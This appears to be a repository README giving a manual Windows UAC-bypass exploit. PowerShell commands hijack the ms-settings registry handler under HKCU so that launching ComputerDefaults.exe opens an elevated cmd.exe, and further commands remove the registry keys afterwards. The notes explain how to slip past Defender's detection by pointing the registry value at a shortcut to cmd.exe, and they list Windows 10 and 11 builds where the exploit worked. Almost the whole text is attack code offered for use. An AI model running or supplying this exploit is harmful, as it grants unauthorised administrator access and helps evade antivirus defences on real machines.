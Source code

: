 # Manual computerdefaults.exe Exploit

### Create Registry Structure
```Powershell
New-Item "HKCU:\software\classes\ms-settings\shell\open\command" -Force

New-ItemProperty "HKCU:\software\classes\ms-settings\shell\open\command" -Name "DelegateExecute" -Value "" -Force

Set-ItemProperty "HKCU:\software\classes\ms-settings\shell\open\command" -Name "(default)" -Value "C:\Windows\System32\cmd.exe" -Force
```

### Start fodhelper.exe
```Powershell
Start-Process "C:\Windows\System32\ComputerDefaults.exe"
```

### Cleanup
```Powershell
Start-Sleep 3

Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force
```


### Notes
- Defender is triggered when trying to set the registry value as "cmd.exe"
- This can be bypassed. Create a shortcut to "cmd.exe". Then use the path to that shortcut as the registry value.
- Worked on Windows 10 Pro N 21H2 Build 19044.1288 after disabling Defender.
- Worked on  Windows 11 Pro N 23H2 Build 22631.3737 after disabling Defender.
